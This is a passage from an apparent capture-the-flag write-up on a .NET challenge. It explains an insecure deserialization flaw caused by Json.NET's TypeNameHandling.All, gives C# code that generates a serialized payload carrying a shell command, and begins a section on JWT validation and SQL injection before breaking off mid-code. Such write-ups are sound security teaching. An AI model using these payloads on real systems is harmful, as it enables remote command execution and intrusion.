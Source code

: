 ```cs
            return products;
        }
```

The `Deserialize()` function decodes the base64 encoding and then deserializes it using JsonConvert class which is part of Newtonsoft. Wierdly it uses the `TypeNameHandling = TypeNameHandling.All`. 
Enabling TypeNameHandling to anything other than None is vulnerable to insecure deserialization vulnerablity.

> Following TypeNameHandlings are vulnerable against deserialization attack:
TypeNameHandling.All
TypeNameHandling.Auto
TypeNameHandling.Arrays
TypeNameHandling.Objects
In fact the only kind that is not vulnerable is the default: TypeNameHandling.None

^ [blog](https://www.alphabot.com/security/blog/2017/net/How-to-configure-Json.NET-to-create-a-vulnerable-web-API.html#:~:text=In%20fact%20the%20only%20kind%20that%20is%20not%20vulnerable%20is%20the%20default%3A%20TypeNameHandling.None)

This is also mentioned in the official Json.NET [TypeNameHandling Documentation](https://www.newtonsoft.com/json/help/html/P_Newtonsoft_Json_JsonSerializer_TypeNameHandling.htm)

So if we give in a base64 encoded serialized object of the class StatusCheckHelper with the commands we want to execute then the function will base64 decode and deserialize the payload, hence executing the command inside it.

The serialized payload can be generated with the following code:

```cs
    static void Main()
    {
        StatusCheckHelper objstatus = new StatusCheckHelper();
        objstatus.command = "ls";
       string serializedResult = JsonConvert.SerializeObject(objstatus, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.All
            });
        Console.WriteLine(serializedResult1);
    }
```

Serialized payload:
`{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"ls"}`

We have successfully generated the payload but the next objective is to get the Deserialize function call with the parameter as our malicious payload. 

### 2nd Part - Invalid Validation of JWT tokens plus SQLI

The wishlist endpoint takes the ID from the JWT token and gives it to the SQL query which will fetch the corresponding row. Then the data column of the response will be given to the deserialize function.
Let's look at the JWTHelper class.
```cs
public class JWTHelper
    {
        private readonly IConfiguration _configuration;
        public JWTHelper(IConfiguration configuration) 
        {
            _configuration = configuration;
        }
        public string GenerateJwtToken(string username, string id) 
        {
            var secretKey = Encoding.UTF8.GetBytes(_configuration["JWT:Secret"]);
            var claims = new Claim[] {
                new Claim("username", username),
                new Claim("ID", id)
```